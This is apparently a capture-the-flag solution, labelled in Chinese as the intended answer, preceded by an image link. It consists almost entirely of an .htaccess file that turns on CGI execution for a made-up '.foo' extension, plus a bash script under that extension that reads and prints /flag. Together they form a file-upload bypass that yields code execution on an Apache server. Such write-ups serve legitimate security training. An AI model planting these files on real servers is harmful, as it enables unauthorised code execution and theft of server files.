

# 预期解
.htaccess
Options +ExecCGI
AddHandler cgi-script .foo

1.foo
#!/bin/bash
echo "Content-Type: text/plain\n"
cat /flag
54